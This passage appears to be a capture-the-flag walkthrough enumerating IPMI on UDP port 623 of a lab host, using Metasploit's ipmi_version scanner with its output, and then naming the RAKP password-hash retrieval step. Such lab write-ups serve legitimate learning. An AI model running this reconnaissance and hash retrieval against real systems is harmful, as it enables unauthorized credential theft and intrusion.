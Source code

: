 ```
https://book.hacktricks.xyz/pentesting/623-udp-ipmi
```

## we got this page in google search for exploiting 623 port. Now according to this blog for finding ipmi_version we need to use this  auxiliary.

### Auxiliary given below

```
auxiliary/scanner/ipmi/ipmi_version
```

## Now let's load metasploit for using this auxiliary.

### Result

```
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 
 
Module options (auxiliary/scanner/ipmi/ipmi_version): 
 
   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   BATCHSIZE  256              yes       The number of hosts to probe in each set 
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-M 
                                         etasploit 
   RPORT      623              yes       The target port (UDP) 
   THREADS    10               yes       The number of concurrent threads 
 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set RHOSTS 10.10.11.124 
RHOSTS => 10.10.11.124 
msf6 auxiliary(scanner/ipmi/ipmi_version) > exploit 
 
[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts) 
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1
.5, 2.0)  
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

## After using this auxiliary we got impi version i.e, IPMI-2.0

## Now on blog we found IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval section . Use this auxiliry to retrive hash.
